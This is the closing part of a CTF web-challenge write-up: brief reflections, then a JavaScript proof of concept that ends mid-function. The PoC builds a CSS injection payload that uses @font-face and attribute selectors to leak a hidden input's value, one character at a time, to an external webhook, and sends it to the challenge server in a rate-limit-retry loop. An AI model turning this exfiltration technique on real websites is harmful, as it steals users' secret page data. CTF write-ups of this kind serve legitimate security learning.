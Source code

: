 ### Thoughts
Overall, as someone who particularly enjoys these type of webs, it was a pretty fun challenge, and I recommend the reader to go try it for themselves. Though one piece of criticism is that the rate limit was set too high, at 1 request per minute, which was not helping given that the flag is 68 characters long.

### PoC
```js=
// This might not be fully functional
// I modified it multiple times during the contest
const hook = "https://webhook.site/...",
  name = "flag";

function gen(prefix) {
  return `
                  @font-face {
 font-family: leak-${prefix[prefix.length - 1]};
 src: url(${hook}?q=${prefix[prefix.length - 1]});
}

    input[name="${name}"][value*="${prefix}"] {
              font-family: leak-${prefix[prefix.length - 1]};
            }`;
}


// const upper_alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
const lower_alpha = "abcdefghijklmnopqrstuvwxyz";
const digits = "0123456789";
const symbols = "_";

const charset = lower_alpha + digits + symbols;
const prefix = "...",
  res = [];

for (let i = 0; i < charset.length; i++) {
  res.push(
    gen(prefix + charset[i])
      .replace(/\s+/g, " ")
      .trim()
  );
}

const payload = ("<div is>}" + res.join("\n")).replaceAll(" ", "%20");

const myHeaders = new Headers();
myHeaders.append("Content-Type", "application/x-www-form-urlencoded");

const urlencoded = new URLSearchParams();
urlencoded.append("content", "http://localhost:3000/?" + payload);

const requestOptions = {
  method: "POST",
  headers: myHeaders,
  body: urlencoded,
  redirect: "follow",
};

function f() {
  // auto re-fetch in case of rate limit
  fetch(
    "https://uuid.x3c.tf:1337/",
    requestOptions
```